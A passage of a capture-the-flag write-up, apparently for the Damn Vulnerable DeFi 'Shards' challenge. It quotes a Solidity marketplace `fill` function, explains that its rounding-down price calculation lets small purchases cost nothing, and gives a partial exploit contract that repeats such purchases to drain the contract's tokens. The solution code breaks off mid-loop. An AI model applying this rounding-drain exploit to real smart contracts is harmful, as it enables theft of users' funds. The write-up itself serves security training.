 #### `ShardsNFTMarketplace::fill`

The price of the NFT is calculated using the `mulDivDown` function, which allows us to buy a small amount for free. This challenge is essentially solved.

```solidity
contract ShardsNFTMarketplace is IShardsNFTMarketplace, IERC721Receiver, ERC1155 {
  // [...]
  function fill(uint64 offerId, uint256 want) external returns (uint256 purchaseIndex) {
    Offer storage offer = offers[offerId];
    if (want == 0) revert BadAmount();
    if (offer.price == 0) revert UnknownOffer();
    if (want > offer.stock) revert OutOfStock();
    if (!offer.isOpen) revert NotOpened(offerId);

    offer.stock -= want;
    purchaseIndex = purchases[offerId].length;
    uint256 _currentRate = rate;
    purchases[offerId].push(
      Purchase({
        shards: want,
        rate: _currentRate,
        buyer: msg.sender,
        timestamp: uint64(block.timestamp),
        cancelled: false
      })
    );
    paymentToken.transferFrom(
        msg.sender, address(this), want.mulDivDown(_toDVT(offer.price, _currentRate), offer.totalShards)
    );
    if (offer.stock == 0) _closeOffer(offerId);
  }
  // [...]
}
```

### Solution

```solidity
contract ShardSolution {
  using FixedPointMathLib for uint256;
  uint112 constant NFT_OFFER_PRICE = 1_000_000e6;
  uint112 constant NFT_OFFER_SHARDS = 10_000_000e18;
  uint256 constant MARKETPLACE_INITIAL_RATE = 75e15;

  constructor(ShardsNFTMarketplace marketplace, DamnValuableToken token, address recovery) {
    /* 
      The price is
        want.mulDivDown(
          NFT_OFFER_PRICE.mulDivDown(MARKETPLACE_INITIAL_RATE, 1e6)), 
          NFT_OFFER_SHARDS
        )
    */
    uint256 p = NFT_OFFER_PRICE * MARKETPLACE_INITIAL_RATE / 1e6;
    uint256 want = NFT_OFFER_SHARDS / p;
    uint256 amount_drained_per_trial = want.mulDivUp(MARKETPLACE_INITIAL_RATE, 1e6);
    uint256 marketplace_initial_balance = token.balanceOf(address(marketplace));
    uint256 amount_needed_to_drain = marketplace_initial_balance * 1e16 / 100e18;
    uint256 num_trials = amount_needed_to_drain / amount_drained_per_trial + 1;

    console.log("amount_drained_per_trial: %d", amount_drained_per_trial);
    console.log("num_trials: %d", num_trials);

    for (uint256 i = 0; i < num_trials; i++) {
```